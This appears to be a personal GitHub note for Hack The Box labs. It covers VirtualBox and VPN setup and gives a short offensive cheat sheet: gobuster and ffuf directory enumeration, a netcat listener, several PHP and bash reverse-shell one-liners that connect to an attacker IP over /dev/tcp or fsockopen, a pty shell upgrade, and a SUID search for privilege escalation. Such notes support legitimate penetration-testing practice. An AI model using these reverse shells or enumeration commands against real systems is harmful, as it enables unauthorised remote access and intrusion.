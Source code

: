# HTB-Note
note about Hack The Box

## Virtual Box Setting

### Run GuestAddictionsCD

```Shell
cd /media/
sudo mount /dev/cdrom /media/cdrom1
cd /cdrom1
sudo ./VBoxLinuxAdditions.run 
reboot
```

### Open VPN

- Download ovpn file **for VIP account**

```Shell
sudo openvpn --config ./Desktop/yufujioka.ovpn
```

## CheatSheet

### MSFvenom

- [MSFvenom ~ ペイロード早見表 ~](https://qiita.com/mr-wacker/items/0ec926951ffa5a4d197c)

### Directory Enumlation

- Gobuster options
  - [Gobuster Cheatsheet](https://redteamtutorials.com/2018/11/19/gobuster-cheatsheet/)
  - quick play
```
gobuster dir -t 100 -u targetUrl -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o outfile
```

- [ffuf](https://github.com/ffuf/ffuf)
  - quick play
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u targetUrl/FUZZ
```


### Reverse Shell

- receive
```
nc -lnvp 1234
```

- [A tiny PHP/bash reverse shell.](https://gist.github.com/rshipp/eee36684db07d234c1cc)
```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'");
```
  - Direct input
```php
php -r '$sock=fsockopen("your.server.ip.address",8888);exec("/bin/bash -i <&3 >&3 2>&3");'
```

- PHP fsockopen
<?php $s=fsockopen("10.0.0.1",1234);exec("sh<&3>&3 2>&3");?>
  - Direct input
```php
php -r '$s=fsockopen("10.0.0.1",1234);exec("sh<&3>&3 2>&3");'
```

- when i get "must be run from a terminal"
```python
echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
python /tmp/asdf.py
```

### Privilege escalation

#### find SUID 

```shell
find / -perm -u=s -type f 2>/dev/null
```

### PowerShell

- whoami
```
$env:UserName
```
- 論理ドライブの一覧を表示
```
Get-PSDrive
```
- カレントドライブの移動
```
Set-Location C:
```
